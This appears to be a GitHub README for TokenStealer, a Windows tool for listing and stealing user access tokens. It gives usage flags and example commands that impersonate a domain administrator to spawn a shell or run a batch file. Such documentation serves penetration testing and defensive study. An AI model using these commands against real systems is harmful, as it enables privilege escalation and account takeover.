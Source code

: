 # TokenStealer
A simple tool I wrote some time ago for stealing and playing with Windows tokens.<br>
Parts of code have been taken and adatpted from https://github.com/FSecureLABS/incognito
<br><br>
TokenStealer.exe<br>
[+] My personal simple and stupid  Token Stealer... ;)<br>
[+] v1.0 @decoder_it 2023<br>

[!] Usage:<br>
         -l: list all user's token<br>
         -e: list all user's token with extended info -> [user]:[token_level (2)=Impersonation, (3)=Delegation,(P)=Primary>]:[pid]:[SessionId]<br>
         -p: `<pid>` list/steal  token from specfic  process pid<br>
         -u: `<user>` list/steal token of user<br>
         -c: `<command>` command to execute with token <br>
         -t: force use of impersonation Privilege <br>
         -b: `<token level>` needed token type: 1=Primary,2=Impersonation,3=Delegation <br>
         -s: `<SessionId>` list/steal token from specific Session ID
<br><br>
=Examples=<br><br>
<br><b>TokenStealer.exe -e -b 1 </b> -> list all primary tokens<br>
<br><b>TokenStealer.exe -l -p 100 </b>-> list all tokens in process pid 100<br>
<br><b>TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\cmd.exe </b>-> steal token of the user and execute an interactive  command shell using the AssingPrimary privilege if available<br>
<br><b>TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\bind.bat  -p 100 -t </b>-> steal token of the user in process 100 and execute the batch file using Impersonation privilege instead of AssingPrimary<br>
<br><b>TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\cmd.exe -b 1 </b>-> steal a primary token of the user and execute an interactive  command shell using the AssingPrimary privilege if available<br>
<br><b>TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\cmd.exe -s 2 </b>-> steal a token of the user in specific SessionID and execute an interactive  command shell using the AssingPrimary privilege if available<be>
<img src="https://github.com/decoder-it/TokenStealer/blob/master/Capture.PNG" alt="Alt text" title="Optional title">




